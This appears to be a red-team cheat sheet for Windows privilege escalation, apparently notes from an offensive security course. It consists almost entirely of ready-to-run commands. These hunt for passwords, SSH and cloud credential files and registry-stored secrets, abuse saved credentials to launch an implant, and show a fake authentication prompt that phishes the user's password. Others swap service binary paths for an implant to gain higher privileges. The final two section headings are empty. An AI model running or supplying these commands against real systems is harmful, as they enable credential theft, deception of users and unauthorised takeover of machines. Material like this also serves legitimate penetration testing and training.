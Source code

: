 # RTO Sektor 7 Cheat Sheet

### Credentials

- Search for password

```
C:\> dir /b /a /s c:\ > c:\rto\c-dirs.txt
C:\> type c:\rto\c-dirs.txt | findstr /i passw
```

- Search for interesting files

```
C:\> type c:\rto\c-dirs.txt | findstr /i ssh
C:\> type c:\rto\c-dirs.txt | findstr /i kdbx
C:\> type c:\rto\c-dirs.txt | findstr /i vnc
```

- Good targets:

  - install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .config, .ini, .xml, .txt, .gpg, .pgp, .p12, .der, .csr, .cer, id_rsa, id_dsa, .ovpn, .rdp, vnc, ftp, ssh, vpn, git, .kdbx, .db
  - unattend.xml
  - Unattended.xml
  - sysprep.inf
  - sysprep.xml
  - VARIABLES.DAT
  - setupinfo
  - setupinfo.bak
  - web.config
  - SiteList.xml
  - .aws\credentials
  - .azure\accessTokens.json
  - .azure\azureProfile.json
  - gcloud\credentials.db
  - gcloud\legacy_credentials
  - gcloud\access_tokens.db
 
- Search for passwords in the Registry

```
C:\> reg query "HKCU\Software\ORL\WinVNC3\Password"
C:\> reg query "HKCU\Software\TightVNC\Server"
C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
C:\> reg query "HKCU\Software\OpenSSH\Agent\Keys"
C:\> reg query HKLM /f password /t REG_SZ /s
C:\> reg query HKCU /f password /t REG_SZ /s
```

- Abuse Credential Manager

```
C:\> cmdkey /list
C:\> runas /savecred /user:admin cmd.exe
C:\> runas /savecred /user:admin c:\rto\lpe\implant\implant.exe
C:\> runas /savecred /user:admin "c:\windows\system32\cmd /c dir /b /a /s c:\users\admin > c:\rto\admin.txt"
```

- Rob Credential Manager

```
C:\> powershell Import-Module c:\rto\lpe\cms.ps1 ; Enum-Creds
```

- Ask user for credentials using a trick prompt

```
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

### Unsecured Objects

- Search for unquoted service paths

```
C:\> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """"
```

- Search for services with weak permissions

```
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Everyone" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Users" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Authenticated Users" *

C:\> sc query sshd
C:\> sc qc sshd
C:\> sc config sshd binPath= "c:\rto\lpe\implant\implant.exe"
C:\> sc start sshd

C:\> sc stop sshd
C:\> sc config sshd binPath= "c:\Program Files\OpenSSH\sshd.exe"
```

- Search for service Registry keys with weak permissions

```
C:\> c:\RTO\Tools\SI\accesschk.exe -accepteula -kvuqsw hklm\System\CurrentControlSet\services > c:\rto\regs.txt

C:\> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT
C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d C:\rto\lpe\implant\implantsrv.exe /f
C:\> sc stop ikeext
C:\> sc start ikeext

C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d "%systemroot%\system32\svchost.exe -k netsvcs -p" /f
```

### Execution Flow Hijacking

### Getting SYSTEM
